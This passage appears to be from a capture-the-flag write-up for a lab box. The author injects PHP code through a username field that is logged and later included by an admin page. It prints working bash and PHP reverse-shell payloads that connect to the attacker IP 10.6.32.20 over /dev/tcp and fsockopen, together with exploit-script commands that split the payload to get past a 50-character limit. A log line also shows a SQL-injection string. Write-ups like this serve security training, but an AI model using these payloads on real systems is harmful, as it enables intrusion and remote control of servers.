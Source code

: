 By changing our name to `<?php echo "PWNED"; ?>`, we see that we get code execution.

We can then get a php reverse shell. Lets try
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.6.32.20/7777 0>&1'");
```

Hmm it's a bit tricky to enter this in the shell as a parameter with all the quotes... let's write it to a file and cat it as a parameter. Maybe this will work ?

```
python3 expl.py --name_only --name "$(cat expl_name)"
```

Hmmmmm.... dammnit, the user can't be more than 50 characters...

We can work around this by creating our cmd in parts.
Luckily for us, the current user name is written to the unauthorized log but doesn't change when we change our name. We get something like :
```
192.168.0.139 2020-07-24 22:54:34 WWBuddy fc18e5f4aa09bbbb7fdedf5e277dda00
192.168.0.139 2020-07-24 22:56:09 Roberto b5ea6181006480438019e76f8100249e
10.6.32.20 2020-11-28 19:23:20 WWBuddy fc18e5f4aa09bbbb7fdedf5e277dda00
10.6.32.20 2020-11-28 19:29:35 Roberto b5ea6181006480438019e76f8100249e
10.6.32.20 2020-11-28 19:40:04 Roberto' or '1'='1 6ccb34104a9f9b136c8d6ccbd8450d71
10.6.32.20 2020-11-28 19:42:22 PWNED 6ccb34104a9f9b136c8d6ccbd8450d71 
```

We could concatenate a string in multiple lines and get the same command as before.
OR we could write it in php with 
```
$sock=fsockopen("10.6.32.20",7777);
exec("/bin/sh -i <&3 >&3 2>&3");
```
```
python3 expl.py --name_only --name '<?php $sock=fsockopen("10.6.32.20",7777); ?>'
```

Then visit `/admin` with our underpriviledge account.

```
python3 expl.py --name_only --name '<?php exec("/bin/sh -i <&3 >&3 2>&3"); ?>'
```

Then again, visit `/admin` with our underpriviledge account.

Finally we go to `/admin` with the admin account `Henry`

Hmmmm, we get a connection on our box but it is closed as soon as it is opened.

Maybe we can try another way.

Let's concatenate the exec command
```
<?php $c="/bin/bash -c 'bash -i >& "; ?>
<?php $c=$c."/dev/tcp/10.6.32.20/8888 0>&1'"; ?>
<?php exec($c);
```

```
python3 expl.py --name_only --name '<?php $c="/bin/bash -c \'bash -i >& "; ?>'
python3 expl.py --name_only --name '<?php $c=$c."/dev/tcp/10.6.32.20/8888 0>&1\'"; ?>'
python3 expl.py --name_only --name '<?php exec($c); ?>'
```
